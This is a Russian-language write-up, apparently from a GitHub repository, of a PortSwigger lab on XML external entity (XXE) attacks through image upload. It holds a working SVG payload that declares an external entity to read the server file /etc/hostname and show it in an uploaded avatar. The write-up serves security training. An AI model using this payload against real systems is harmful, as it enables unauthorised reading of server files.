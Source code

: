 # Exploiting XXE via image file upload

## Theory

<h3>XXE-атаки через загрузку файлов</h3>

Некоторые приложения позволяют пользователям загружать файлы, которые затем обрабатываются на стороне сервера. Некоторые распространенные форматы файлов используют XML или содержат подкомпоненты XML. Примерами форматов на основе XML являются форматы офисных документов, такие как DOCX, и форматы изображений, такие как SVG.

Например, приложение может разрешить пользователям загружать изображения и обрабатывать или проверять их на сервере после загрузки. Даже если приложение ожидает получить такой формат, как PNG или JPEG, используемая библиотека обработки изображений может поддерживать изображения SVG. Поскольку формат SVG использует XML, злоумышленник может отправить вредоносное изображение SVG и, таким образом, получить доступ к скрытой поверхности атаки для обнаружения уязвимостей XXE.

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_via_image_file_upload/assets/1.png)

Перейдем к посту и спустимся в низ страницы. У нас есть поле для загрузки аватара.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_via_image_file_upload/assets/2.png)

Создадим файл с расширением .svg и запишем в файл вредоносный код. Загрузим файл. Вредоносный код:
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_via_image_file_upload/assets/3.png)

Вернемся к посту. Теперь мы можем заметить, что аватар изменился.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_via_image_file_upload/assets/4.png)

Откроем картнку в новой вкладке.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_via_image_file_upload/assets/5.png)

Подтверждаем ответ и получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_via_image_file_upload/assets/6.png)
